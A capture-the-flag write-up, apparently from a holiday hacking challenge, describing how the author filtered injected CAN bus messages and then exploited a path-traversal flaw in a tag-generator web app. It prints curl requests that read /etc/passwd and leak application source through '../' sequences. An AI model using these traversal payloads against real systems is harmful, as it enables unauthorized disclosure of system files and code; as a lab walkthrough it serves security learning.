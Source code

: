 Answer: The Lollipop Guild

### Objective 7: Solve the Sleigh's CAN-D-BUS Problem

The goal of this challenge is to filter out the bad messages Jack is injecting. There are different approaches to this but I started by basically filtering out all messages and then removing one filter at a time to understand which function of the sled corresponds to what messages. The functions are: accelerator, break, steering, lock/unlock and start/stop. By manipulating these functions one at a time we can see that there is a message with ID "19B" corresponding to the lock/unlock function being injected from time to time. The message has value "0000000F2057" which doesn't match any of the valid values "00000F000000" or "000000000000". We should therefore filter it out. By going through each of the other functions we can discover thaty message id "080" corresponds to the breaks which seems to have a valid range of 0-100 but we also see valus like "FFFFF8" which can be interpreted as a negative signed number so let's filter out anything less than 0 with ID 080. These two filters together solve the challenge.

```
ID 19B Message Equals 0000000F2057
ID 080 Message Less 000000000000
```

### Objective 8: Broken Tag Generator

In this challenge we are presented with a vulnerable web application and we want to leak one of the invironment variables. If we upload an image to the app we observe that it is then served from the following URL:

```
https://tag-generator.kringlecastle.com/image?id=c18cdbeb-fc95-4b35-946e-98ef2c135cae.png
```

This smells LFI. Let's try to access the passwd file to test the hypothesis:

```bash
$ curl 'https://tag-generator.kringlecastle.com/image?id=../../../../etc/passwd'
root:x:0:0:root:/root:/bin/bash
...
app:x:1000:1000:,,,:/home/app:/bin/bash
```

This seems to work. Now we would like to leak the source code of the app to be able to look for other vulnerabilities but we do not know the path to the app. If we try an invalid path however we get a nice error message.

```bash
curl 'https://tag-generator.kringlecastle.com/image?id=../'
```

```html
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/../</p>
```

Now with the path to the code we can leak it and start reading through it.

```bash
curl 'https://tag-generator.kringlecastle.com/image?id=../../../../app/lib/app.rb' > app.rb
```
